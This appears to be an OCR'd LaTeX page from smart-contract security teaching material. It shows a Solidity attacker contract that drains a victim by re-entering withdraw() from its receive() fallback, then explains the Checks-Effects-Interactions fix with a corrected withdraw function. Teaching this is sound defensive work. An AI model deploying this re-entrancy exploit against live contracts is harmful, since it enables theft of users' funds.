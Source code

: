 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity, caption=Single-Function Re-Entrancy Attacker Contract]
  contract Attacker {
      Victim victim;
      uint256 private initialDeposit;
  
      constructor(address _vulnerable) {
          victim = Victim(_vulnerable);
      }
  
      function attack() public payable {
          initialDeposit = msg.value;
          victim.deposit{value: msg.value}();
          victim.withdraw();
      }
  
      receive() external payable {
          if (address(victim).balance > initialDeposit) {
              victim.withdraw();
          }
      }
  }
\end{lstlisting}
\end{minipage}

\subsection{Re-Entrancy Mitigations}

\subsubsection*{Checks-Effects-Interactions Pattern}

It is recommended to follow CEI pattern in your contracts. CEI stands for:

\begin{enumerate}
    \item \textbf{Check} conditions
    \item \textbf{Effects} update internal state
    \item \textbf{Interactions} perform external calls
\end{enumerate}

\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
function withdraw() public {
    // 1. Checks
    uint amount = balances[msg.sender];
    require(amount > 0, "Nothing to withdraw");

    // 2. Effects
    balances[msg.sender] = 0;

    // 3. Interactions
    (bool success, ) = payable(msg.sender).call{value: amount}("");
    require(success, "Transfer failed");
}
\end{lstlisting}
\end{minipage}
\end{document}
